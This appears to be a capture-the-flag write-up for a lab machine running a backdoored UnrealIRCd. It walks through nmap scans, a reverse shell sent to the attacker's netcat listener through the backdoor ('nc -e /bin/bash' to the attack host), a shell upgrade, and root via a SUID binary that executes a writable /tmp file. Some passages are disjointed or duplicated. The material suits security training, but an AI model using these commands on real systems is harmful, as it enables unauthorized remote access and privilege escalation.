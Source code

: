 ### Recon

initiating reconnaissance:
```
nmap -sC -sV 10.10.10.117
```

With the following results:
```
Nmap scan report for 10.10.10.117
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A full port scan reveals that ports 6697, 8067 and 65534 are open and running UnrealIRCd. A version of this service was vulnerable to a backdoor command execution.

### Enumeration

Port 80 is open so let's try to enumerate directories with gobuster:
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.117
```


```
nmap -p 6697,8067,65534 --script irc-unrealircd-backdoor 10.10.10.117
```

```
Nmap scan report for 10.10.10.117
Host is up (0.21s latency).

PORT      STATE SERVICE
6697/tcp  open  ircs-u
|_irc-unrealircd-backdoor: Server closed connection, possibly due to too many reconnects. Try again with argument irc-unrealircd-backdoor.wait set to 100 (or higher if you get this message again).
8067/tcp  open  infi-async
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
65534/tcp open  unknown

```


# Initial foothold

The next obvious step would be to get a reverse shell on the machine by exploiting the UnrealIRCd backdoor vulnerability. After attempting to do that, I spent an hour trying to figure out why neither my netcat reverse or bind shells are not working. It turns out that if you add the flag “-n” which stands for “do not do any DNS or service lookups on any specified address”, the shell doesn’t work.

For now, set up a listener on the attack machine:
```
nc -lnvp 4444
```

Send a reverse shell to our listener from the target machine.
```
nmap -p 8067 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.14.9 4444"  10.10.10.117
```

Upgrade to a better shell:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
python -m http.server
```

```
ircd@irked:/usr/bin$ printf '/bin/sh' > /tmp/listusers
chmod a+x /tmp/listusers
viewuser
whoami
printf '/bin/sh' > /tmp/listusers
ircd@irked:/usr/bin$ chmod a+x /tmp/listusers
ircd@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-06-25 09:00 (:0)
# root
```

